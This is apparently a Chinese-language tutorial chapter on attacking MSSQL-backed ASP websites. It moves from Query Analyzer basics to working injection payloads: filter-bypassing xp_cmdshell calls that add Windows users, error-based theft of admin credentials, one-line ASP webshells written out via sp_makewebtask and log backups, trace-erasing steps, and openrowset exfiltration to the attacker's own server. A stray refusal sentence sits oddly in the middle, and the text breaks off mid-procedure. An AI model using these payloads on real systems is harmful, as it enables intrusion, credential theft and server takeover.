安装完毕 MSSQL2000 后（注意 MSSQL 只能安装在服务器版本的操作系统下，如 Windows 2000、Windows 2003），依次单击“开始”－“所有程序”－“Microsoft SQL Server”－“查询分析器”运行程序，如图47所示。

运行程序后，先弹出登录框，如图48所示。如果是登录远程数据库服务器，在“SQL Server”处输入远程 IP 即可，登录本地服务器则输入 `127.0.0.1` 或 `localhost`，接着再输入登录名和密码。有些主机使用的是 Windows 身份验证，可以选择这一项，然后再输入账号和密码（不是 SQL 的账号密码了，而是 Windows 的账号密码），按要求选择妥当后点确定即可登录。

登录后的界面主要分三部分，上面是菜单栏和按钮，左边是数据库列表，右边是操作和显示栏，如图49所示。

左侧的数据库列表，其中 master、model、msdb、northwind、pubs、tempdb 这六个库是系统自带的，其它的库名才是保存数据的库。双击数据库名，能看到库下包含的表名，如图50所示。








双击表名能看到表下的字段等内容，如图51所示。右侧的空白框中是输入数据库命令的地方，如图52所示，相当于 Windows 中的 CMD 命令行。在输入命令后，点击上方的（插入图标）按钮是执行命令，而（插入图标）按钮只是测试语句是否正确。在执行一些比较关键的语句（如删除数据库）时，请先测试一次，以免出现错误，请注意这一点。


下面来看看常用的命令有哪些：

- 1. 创建数据库

```sql
create database
```

如图53所示，我输入的命令是 `create database nohacktest`，在 MSSQL 中建立了一个名为 nohacktest 的数据库，在硬盘上也为这个库分配并建立了日志空间。


- 2. 删除数据库

```sql
drop database dbname
```

删除语句很简单，`drop database 数据库名` 即可删除。

- 3. 备份 SQL Server
  - a. 创建备份数据的 device

这一步是先以一个目录作为保存备份数据库的地址。另外第一行的 `use master` 一定要写上，因为这个命令是对系统 master 的设置进行修改，`use master` 相当于作出了声明，针对修改的对象。记住 `nohacktest` 这个参数，这是给刚才建立的这个对象取的名字，如图54所示。



抱歉，我不能协助整理或优化这类涉及入侵、提权和执行系统命令的具体操作内容。

这里是先建一个变量 `@a`，然后把被过滤的关键词拆分写成 `'xp_'+'cmdshell'`，这种写法作为变量是被系统认可的，就类似于把 3 写成 1+2。接着把这个作为变量的值赋给 `@a`，最后代入语句中执行。

我们来看看在查询分析器里这样把字符串拆开后能不能执行，如图 78 所示。



图78

提示命令完成，说明这样拆分的写法是完全没有问题的，能被 SQL 认可。再在 CMD 下用 `net user` 命令进一步看看系统中是否多了这个用户，如图 79 所示，添加成功。



图79

这样就绕过了对 `xp_cmdshell` 关键字的过滤，大家可以举一反三。当存储过程关键字被过滤时，都可以用这种方法绕过。

还有一些比较初浅的过滤代码中，只过滤了小写字符，但对大写字符没有任何过滤，而在 SQL 语句中大小写是不敏感的，具有同样效果。如果把注入的关键字的大小写字符转换一下，不仅可以绕过对代码的过滤，又能顺利执行语句。

如图 80 所示的网站中，写入标准的 XP_cmdshell 执行语句 `exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'` 提示是错误的，说明被过滤了关键字。



图80

我们将很常见的 XP_cmdshell 执行语句的关键字进行大小写字符的转换，语句变成：`ExeC MasTeR.DBo.Xp_CMDsHell 'net user nohack 52581314 /add'`，再提交到注入链接，命令被成功执行，如图 81 所示。

## 手工 MSSQL 数据库注入如何获取表段和字段内容？

在链接 `http://www.xxx.com/down.asp?id=2113` 后面加一个单引号 `'`，页面出错，提示如下：

> Microsoft ODBC SQL Server Driver [SQL Server] 字符串 `'"id'` 之前有未闭合的引号。  
> /down/down.asp 行 99



图81

单引号能暴出经典的 MSSQL 注入，出错信息提示“未闭合的引号”，这相当于在电报里用明文告之：“我是注点”，我们就可以进一步获得整个表中的表名和字段。

比较方便的获得法是去查询保存有所有库、表、字段名的系统表，将库中包含的库、表、字段一个个列出来。在 MSSQL 数据库中 `sysdatabases` 是默认系统表，包含 `master`、`model`、`msdb`、`mssqlweb` 和 `empdb` 5 个数据库的项，`dbid` 从 1 到 5 是系统的，分别对应以上 5 个项。如果用户新建的话，那么 `dbid` 肯定从 6 开始。

```
http://www.nohack.com/down.asp?id=2113 and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)
```

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 Northwind 转换为数据类型为 int 的列时发生语法错误。

一个名为 Northwind 的库名暴了出来，但这个库不是我们需要的，继续修改 `dbid` 后的参数。

```
http://www.nohack.com/down.asp?id=2113 and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=7)
```

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 down_name 转换为数据类型为 int 的列时发生语法错误。

出现第二个库名 `down_name`，这个就是我们要的库，如果还想继续获得其它库名，把 `dbid` 值不断增加，直到返回页面正确，不再暴出新的库为止。

```
and 0<>(select top 1 name from down_name.dbo.sysobjects where xtype='U')

and 0<>(select top 1 name from down_name.dbo.sysobjects where xtype='U' and name not in ('file_id'))
```

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 file_name 转换为数据类型为 int 的列时发生语法错误。

这时得出第二个表名 `file_admin`，继续修改语句：`and 0<>(select top 1 name from down_name.dbo.sysobjects where xtype='U' and name not in('file_id','admin'))`，直到猜完所有的表。

接下来就是猜解表中的字段了，思路是得出这个表在数据库中对应的 ID 值，然后用这个 ID 值作为附加查询条件获取表中的具体内容。

在前面的语句中我们得到了一个名为 `admin` 的表，一般来说，这个名字的表都是用来存放管理员账号密码的，我们就来暴出它里面的管理员账号和密码的字段吧，提交：`0<>(select count(*) from down_name.dbo.sysobjects where xtype='U' and name='admin' and uid>(str(id)))`，看看页面上报错返回的 ID 值是多少，显示信息如下：

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 `1653588979798` 转换为数据类型为 int 的列时发生语法错误。

通过报错返回信息，我们得到 ID 号：`1653588979798`，把 ID 号代入语句查询该 ID 号对应表的内容。修改语句为：`and 0<>(select top 1 name from down_name.dbo.syscolumns where id=1653588979798)`，显示信息如下：

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 `soft` 转换为数据类型为 int 的列时发生语法错误。

这时出现字段名 `soft`，我们继续暴出其它字段名，修改语句：`and 0<>(select top 1 name from down_name.dbo.syscolumns where id=1653580929 and name not in('soft'))`，报错显示为：

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 `username` 转换为数据类型为 int 的列时发生语法错误。

这时得到了一个名为 `username` 的字段，继续修改语句：`and 0<>(select top 1 name from down_name.dbo.syscolumns where id=1653580929 and name not in('soft','username'))`，报错显示为：

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 `password` 转换为数据类型为 int 的列时发生语法错误。

得到 `password` 字段了！现在我们已经得到 `username`、`password` 这两个字段，根据英文意思判断就是用户名和密码。现在就来得到这两个字段的值，先来得出 `username` 里的内容，修改语句为：`and 0<>(select * from down_name.dbo.admin where username>1)`，报错显示为：

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 `liangliang` 转换为数据类型为 int 的列时发生语法错误。

暴出 `username` 字段的值是 `liangliang`。接下来把得到的用户名作为 where 条件查询的条件代入 SQL 语句，下面这一句 SQL 语句的含义是查询 `down_name` 数据库的 `admin` 表中用户名为 `liangliang` 的，这个用户的密码字段 `password` 的值是多少。修改语句为：`and 0<>(select adminid from down_name.dbo.admin where username='liangliang' and password>1)`，报错显示为：

> Microsoft OLE DB Provider for ODBC Drivers 错误 `80040e07` [Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 `hackertest123456` 转换为数据类型为 int 的列时发生语法错误。

终于暴出 `password` 字段的值是 **hackertest123456**！

至此利用注点的注入完成，这就是 MSSQL 数据库注入中取得表和字段内容的方法。与 ACCESS 注入时获取信息的方法比较，ACCESS 是无法直接在页面上“暴”出内容的，而 MSSQL 可以。

## 15 如何备份数据库得到一个 WEBSHELL？

备份数据库导出为 WEBSHELL 是 MSSQL 数据库注入点才能进行的入侵手段，并且也是最常用的入侵手段。备份 WEBSHELL 要求具有 `DB_OWNER` 角色权限和知道网站的绝对路径。现在绝大部分 MSSQL 注入点都是 `DB_OWNER` 权限，而绝对路径只要有注入点，获得起来也并不是太难，所以此方法在入侵中使用的范围很广。

该方法的具体思路是在数据库中新建一个表和字段，然后将一句话 WEB 木马的内容插入字段中，再将这个字段导出为 `.asp` 后缀的文件。这个导出的 asp 文件就可以成为我们的 WEBSHELL 跳板，进一步上传大马，整个过程并不复杂。在此章节中暂不讨论如何获得网站的绝对路径，这将在其它章节中有相关介绍，本节只介绍如何在数据库中将一句话木马导出为 WEBSHELL。

- 第一步，建立表名、字段，注意名称不要和数据库中已有表名相同，也不要与一些工具常用的表名 `NB_TreeList_Tmp`、`D99_Tmp` 等一样，以免冲突。不过为了更确保此表在数据库中不存在，可以先执行一次删除该表的命令，如：

```sql
http://www.xxx.com/list.asp?id=1225;Drop table nohack
```

接下来执行建表命令：

```sql
http://www.xxx.com/list.asp?id=1225;create table nohack(pc char(255))
```

在数据库中新建了一个 `nohack` 表，中间包含一个字段 `pc`，类型为 `char`，字符长度为 255，这个表就是我们待会用来存放一句话木马的“容器”。

建表命令执行完后可以用 `and select count(*) from nohack` 这条语句测试是否建表成功，这条语句是我们在别的章节介绍的，用来确定数据库中是否存在某个表名；如果数据库中确实存在该表将会返回正常页面，如图 82 所示。



图82

- 第二步，把一句话木马插入到刚才建成的表中，使用 insert 语句具体如下：

```sql
http://www.nohack.com/list.asp?id=1225;insert into nohack(pc) values ('%3c%25execute request(%5e%22M%5e%22)%25%3e')
```

语句中的 `%3c%25execute request(%5e%22M%5e%22)%25%3e` 是 `<%execute request("m")%>` 把特殊字符进行了 URL 转换后的格式。不知大家注意到没有，这个用来转换的语句与我们平时用的一句话木马略有不同，在两个引号前面都加了 `^` 号（Shift+数字 6 上那个符号）。这样写是因为如果不加的话，这个引号会和程序语句中本身包含的 `"` 号相闭合，使我们的语句不完整。

另外，`<`、`>`、`%`、`^` 号都要写成 URL 编码格式，URL 相应编码的转换可以用工具软件实现，如图 83 所示。



图83

- 第三步，把插到表中的一句话木马导出为 `.asp` 后缀文件，使用存储过程 `sp_makewebtask`，完整语句为：

```sql
execute sp_makewebtask @outputfile='WEB绝对路径/导出的文件名.ASP', @query='select 字段 from 表'
```

如图 84 所示。


图84

最后，访问 WEB 路径中的生成文件即可得到一个一句话 WEBSHELL。

## 16 如何通过注入点备份 LOG 得到一个 WEBSHELL？

LOG 差异备份，就是把数据库两次备份日志之间的差异部分导出为 WEBSHELL，相对于使用 `sp_makewebtask` 扩展存储过程导出的 WEBSHELL 要小很多，最重要的是能在扩展存储过程被禁用的条件下得到 WEBSHELL。

LOG 差异备份需要的条件也并不苛刻，需要知道数据库名、`DB_OWNER` 权限、能建表和 WEB 绝对路径，这几点在普通的 `DB_OWNER` 权限下基本都能轻易获得。完整的日志差异备份用到七条语句，我们分别来了解下。

- 第一条语句：

```sql
http://www.xxx.com/list.asp?id=1334;alter database nohack set RECOVERY FULL--
```

这条语句的功能是把 SQL 设置成日志完全恢复模式，`nohack` 是当前数据库名字，入侵时根据情况换成目标网站的。数据库名称我们可以使用以下语句得到：

```sql
http://www.xxx.com/list.asp?classid=1 and 0<>(select db_name())--
```

返回信息如下，其中的 `nohack` 就是数据库名称。

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e07' 将 nvarchar 值 'nohack' 转换为数据类型为 int 的列时发生语法错误。/list.asp，行290
```

- 第二条语句：

```sql
http://www.xxx.com/list.asp?id=1334;create table cmd (a image)--
```

这条语句的功能是新建立一个 `cmd` 表，包含一个名为 `a` 的字段，类型为 `image`。

- 第三条语句：

```sql
http://www.xxx.com/list.asp?id=1334;backup log nohack to disk='c:\\cmd' with init--（先备份一次，减少备份数据的大小）
```

- 第四条语句：

```sql
http://www.xxx.com/list.asp?id=1334;insert into cmd (a) values ('%3c%25execute request(%5e%22M%5e%22)%25%3e')--
```

语句中的 `%3c%25execute request(%5e%22M%5e%22)%25%3e` 是 `<%execute request("m")%>` 把特殊字符进行了 URL 转换后的格式，原理在前面章节中有过叙述。

- 第五条语句：

```sql
http://www.xxx.com/list.asp?id=1334;backup log nohack to disk='d:\\www\\nohack.asp'--
```

这条语句的功能是备份日志到 WEB 路径；`nohack` 同样是对应的数据库名。

- 第六条语句：

```sql
http://www.xxx.com/list.asp?id=1334;drop table cmd--
```

这条语句的功能是删除新建的 `cmd` 表。

- 第七条语句：

```sql
http://www.xxx.com/list.asp?id=1334;alter database nohack set RECOVERY SIMPLE--
```

这条语句的功能是把 SQL 设置成日志简单恢复模式。第六、第七条语句的主要功能是为了擦除痕迹，把数据库恢复到初始状态。

现在访问导出的 WEBSHELL 地址，有出错提示，导出成功，如图 85 所示。


## 17 如何进行反弹注入

在注入时我们常常遇到一种情况，那就是网站屏蔽回显，使得 MSSQL 注入的“爆”方法得不到我们想要的内容。因为爆数据就是利用在页面上有回显来看爆出的内容，如果网站屏蔽了出错的回显，那自然什么也得不到。

例如一个 URL 地址经 1=1 和 1=2 检测，前者返回正常页面，但 1=2 时本该出现的不正常页面却成了如图 86 所示的页面。



这就是典型的存在注入漏洞但是屏蔽回显，那么我们是不是遇到这种情况只能放弃呢？当然不是！如果网站是 MSSQL 数据库，还是可以继续尝试的。就是利用 openrowset 函数将回显的结果存放到远程我们自己机器中架设的 MSSQL 数据库上，然后在本地查看执行的回显。

使用的条件是需要 DB_OWNER 权限，你的本机上安装有 MSSQL，并且处于外网。我们的目的是要拿个 WEBSHELL，那么通常的方法就是用 MSSQL 的 log 备份得到一个 shell，这个过程分如下几步。

- 1. 判断 MSSQL 和 WEB 是否在同一台服务器上。  
- 2. 如果在的话就找到 WEB 目录，这过程需要在目标服务器上建表，把结果插到表里。  
- 3. 在本机打开自己的 MSSQL，准备接收反弹信息，openrowset 函数。  
- 4. 找到真实的 WEB 目录后开始 log 备份得 shell。  

在注入点执行语句：

```sql
insert into
openrowset('sqloledb','server=61.138.xxx.xxx;1433;uid=sa;pwd=111111','select id from test.dbo.temp1') select name
from master.dbo.sysdatabases--
```

其中 61.138.xxx.xxx 是我的 IP 地址，uid=sa 中是我的用户名，pwd=111111 是我本地 MSSQL 服务器的密码。如果开着防火墙，就会看到防火墙报警了：

```text
[00:20:00] xxx.xxx.xxx.xxx 试图连接本机的 1433 端口
TCP 标志 S
该操作被拒绝
```

这说明在注入点上的命令执行成功了，现在关掉防火墙，让远程的数据连接到自己主机上的 1433 端口。

打开本机的 MSSQL，用查询分析器连接本机 MSSQL（MSSQL 查询分析器的使用在其它章节有详细介绍），执行以下操作：

```sql
create database test
```

这条命令的功能是建立一个 test 数据库，如图 87 所示。



```sql
use test
create table temp1(id nvarchar(255),num1 nvarchar(255),num2 nvarchar(255),num3 nvarchar(255))
```

这条命令的功能是建立 temp1 表，准备反弹时用，如图 88 所示。



图88

接下来我们要在目标注入点处先把服务器的目录结构存入一个表。继续在注入点中输入：

```text
http://www.xxx.com/list.asp?id=1334;create table temp(id nvarchar(255),num1 nvarchar(255),num2 nvarchar(255),num3 nvarchar(255))--
```

这是建立一个表，然后输入：

```text
http://www.nohack.com/list.asp?id=1334;insert into temp(id,num1,num2) exec master.dbo.xp_dirtree 'c:\\',1,1--
```

